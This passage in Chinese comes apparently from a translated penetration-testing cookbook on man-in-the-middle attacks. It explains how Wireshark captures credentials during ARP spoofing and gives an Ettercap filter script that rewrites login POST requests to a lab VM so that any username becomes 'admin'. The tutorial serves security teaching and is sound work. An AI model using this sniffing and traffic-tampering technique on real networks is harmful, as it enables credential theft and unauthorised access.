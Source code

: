     通过捕获客户端和服务端之间的流量，攻击者能够提取和利用所有类型的敏感信息，例如用户名、密码、会话 Cookie、账户号码、信用卡号码、私人邮件，以及其它。
    
### 工作原理

Wireshark 监听每个我们选择监听的接口上的封包，并在它的界面中显示。我们可以选择监听多个接口。

当我们首先启动嗅探的时候，我们了解了 ARP 欺骗如何工作。它发送大量 ARP 封包给客户端和服务端，以便防止它们的地址解析表（ARP 表）从正当的主机获得正确的值。

最后，当我们向服务器发送请求时，我们看到了 Wireshark 如何捕获所有包含在请求中的信息，包含协议、来源和目的地 IP。更重要的是，它包含了由客户端发送的数据，其中包含管理员密码。

### 另见

研究 Wireshark 数据有一些无聊，所以了解如何在捕获封包时使用显示过滤器非常重要。你可以访问下列站点来了解更多信息。

+ https://www.wireshark.org/docs/wsug_html_chunked/ChWorkDisplayFilterSection.html
+ https://wiki.wireshark.org/DisplayFilters

使用 Wireshark，你可以通过捕获过滤器来选择捕获哪种数据。这是非常实用的特性，尤其是执行 MITM 攻击时生成大量流量的时候。你可以从下列站点中阅读更多信息。

+ https://www.wireshark.org/docs/wsug_html_chunked/ChCapCaptureFilterSection.html
+ https://wiki.wireshark.org/CaptureFilters

## 8.3 修改服务端和客户端之间的数据

在执行 MITM 攻击时，我们不仅仅能够监听在受害者系统之间发送的任何数据，也能够修改请求和响应，因而按照我们的意图调整它们的行为。

这个秘籍中，我们会使用 Ettercap 过滤器来检测封包是否包含我们感兴趣的信息，并触发改变后的操作。

### 准备

在开始之前我们需要让 MITM 工作。

### 操作步骤

1.  我们的第一步是创建过滤器文件。将下列代码保存到文本文件中（我们命名为`regex-replace-filter.filter`）:

    ```
    # If the packet goes to vulnerable_vm on TCP port 80 (HTTP) 
    if (ip.dst == '192.168.56.102'&& tcp.dst == 80) {
        # if the packet's data contains a login page    
        if (search(DATA.data, "POST")){        
            msg("POST request");        
            if (search(DATA.data, "login.php") ){
                msg("Call to login page");            
                # Will change content's length to prevent server from failing            
                pcre_regex(DATA.data, "Content-Length\:\ [0-9]*","Content-Length: 41");            
                msg("Content Length modified");            
                # will replace any username by "admin" using a regular expression            
                if (pcre_regex(DATA.data, "username=[a-zAZ]*&","username=admin&"))    {
                    msg("DATA modified\n");              
                }            
                msg("Filter Ran.\n");        
            }    
        } 
    }
    ```
    